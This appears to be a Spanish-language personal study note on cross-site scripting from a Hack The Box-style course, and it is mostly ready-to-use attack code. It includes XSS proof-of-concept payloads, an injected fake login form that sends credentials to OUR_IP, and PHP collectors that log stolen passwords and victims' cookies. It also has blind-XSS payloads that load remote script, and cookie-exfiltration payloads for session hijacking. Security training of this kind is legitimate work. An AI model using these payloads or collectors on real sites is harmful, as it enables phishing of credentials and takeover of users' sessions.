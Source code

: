 ## Poc
```html
<script>alert(window.origin)</script>
```

```html
<script>alert(document.cookie)</script>
```

Ez y no usar alert():

```
<script>print()</script>
```
cuando es DOM-based :
```html
<img src="" onerror=alert(window.origin)>
```


## login form injection
todo esto metido en la funcion document.write()
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

ANTES:
![[Imágenes/Pasted image 20250621202407.png]]

DESPUES:
![[Imágenes/Pasted image 20250621202449.png]]

 vemos que tenemos el formulario pero todavía está el formulario antiguo, por ende tenemos que borrar el antiguo formulario,para ello utilizaremos la función `document.getElementById().remove()` y para ver el ID lo veremos en el código html : 
 ```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

PAYLOAD FINAL:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Y para recibir las credenciales : 
```shell-session
bonack@htb[/htb]$ sudo nc -lvnp 80
```
alo usar netcat el us soluario que ponga las credenciales le saltará un error , si queremos algo mas realista insertaremos un codigo php que haga que le redirija a la página original de nuevo, el archivo sera `index.php` guardado en ``/tmp/tmpserver/`` . CODIGO:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

y luego : 

```shell-session
bonack@htb[/htb]$ mkdir /tmp/tmpserver
bonack@htb[/htb]$ cd /tmp/tmpserver
bonack@htb[/htb]$ vi index.php #at this step we wrote our index.php file
bonack@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```
 luego las credenciales se guardarán en un archivo `creds.txt`


## Blind XSS

XSS a una pagina a la que no tenemos acceso

payloads:

```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```
 y hacer : 
```
 mkdir /tmp/tmpserver
 cd /tmp/tmpserver
 sudo php -S 0.0.0.0:80
```



###  Session Hijacking

solo si las cookies NO son HTTP only

payloads:

`
```javascript
<script>document.location='http://OUR_IP/index.php?c='+document.cookie</script>
<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script> 
```


codigo para ordenar las cookies que encontremos(index.php) : 

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
